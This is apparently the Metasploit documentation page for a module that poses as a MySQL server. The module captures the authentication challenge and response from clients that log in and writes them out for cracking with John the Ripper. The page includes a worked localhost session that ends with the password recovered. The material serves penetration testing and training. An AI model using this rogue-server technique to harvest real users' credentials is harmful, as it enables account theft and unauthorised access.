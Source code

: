 This module creates a mock MySQL server which accepts credentials.  Upon receiving a login attempt, an `ERROR 1045 (2800): Access denied` error is thrown.

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/server/capture/mysql```
  3. Do: ```run```

## Options

  **CHALLENGE**

  The MySQL 16 byte challenge used in the authentication.  Default is `112233445566778899AABBCCDDEEFF1122334455`.

  **JOHNPWFILE**

  Write a file containing a John the Ripper format for cracking the credentials.  Default is ``.

  **CAINPWFILE**

  Write a file containing a Cain & Abel format for cracking the credentials.  Default is ``.

  **SRVVERSION**

  The MySQL version to print in the login banner.  Default is `5.5.16`.

  **SSL**

  Boolean if SSL should be used.  Default is `False`.

  **SSLCert**

  File path to a combined Private Key and Certificate file.  If not provided, a certificate will be automatically
  generated.  Default is ``.

## Scenarios

### MySQL with MySQL Client and JTR Cracking

Server:

```
msf5 > use auxiliary/server/capture/mysql 
msf5 auxiliary(server/capture/mysql) > set johnpwfile /tmp/mysql.logins
johnpwfile => /tmp/mysql.logins
msf5 auxiliary(server/capture/mysql) > run
[*] Auxiliary module running as background job 0.
msf5 auxiliary(server/capture/mysql) > 
[*] Started service listener on 0.0.0.0:3306 
[*] Server started.
[+] 127.0.0.1:59604 - User: admin; Challenge: 112233445566778899aabbccddeeff1122334455; Response: 46677c2d9cac93da328c4321060c125db759925e
```

Client:

```
root@kali:~# mysql -u admin -ppassword1 -h 127.0.0.1
ERROR 1045 (28000): Access denied for user 'admin'@'127.0.0.1' (using password: YES)
```

JTR:

```
root@kali:~# john /tmp/mysql.logins_mysqlna 
Using default input encoding: UTF-8
Loaded 1 password hashes with no different salts (mysqlna, MySQL Network Authentication [SHA1 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (admin)
1g 0:00:00:00 DONE 2/3 (2018-11-08 21:05) 20.00g/s 16800p/s 16800c/s 16800C/s password1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
